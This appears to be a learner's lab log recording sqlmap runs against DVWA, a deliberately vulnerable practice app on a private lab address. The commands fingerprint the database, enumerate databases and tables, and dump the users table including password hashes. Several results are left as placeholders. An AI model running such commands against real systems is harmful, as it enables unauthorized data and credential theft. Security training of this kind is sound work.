 # Day 8 – Automated SQL Injection Testing with sqlmap

## Target
- DVWA SQL Injection module URL: `http://192.168.56.101/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit`

## Tool
- sqlmap version: [your version]
- Used with `--batch` for automation.

## Commands Executed

```bash
# Banner grab
sqlmap -u "http://192.168.56.101/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \
--cookie="PHPSESSID=ee14a0fc65da267bc0c284af23452d03; security=low" --batch --banner

# Database enumeration
sqlmap -u "http://192.168.56.101/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \
--cookie="PHPSESSID=ee14a0fc65da267bc0c284af23452d03; security=low" --batch --dbs

# Table listing
sqlmap -u "http://192.168.56.101/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \
--cookie="PHPSESSID=ee14a0fc65da267bc0c284af23452d03; security=low" --batch -D dvwa --tables

# Dump data from users table
sqlmap -u "http://192.168.56.101/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \
--cookie="PHPSESSID=ee14a0fc65da267bc0c284af23452d03; security=low" --batch -D dvwa -T users --dump

Results
Banner: [Captured banner info]

Databases: dvwa, mysql, information_schema, ...

Tables in dvwa: users, guestbook, ...

Data from users table: usernames and password hashes retrieved.

Notes
sqlmap effectively automated data retrieval.

Cookie session and security level important for success.


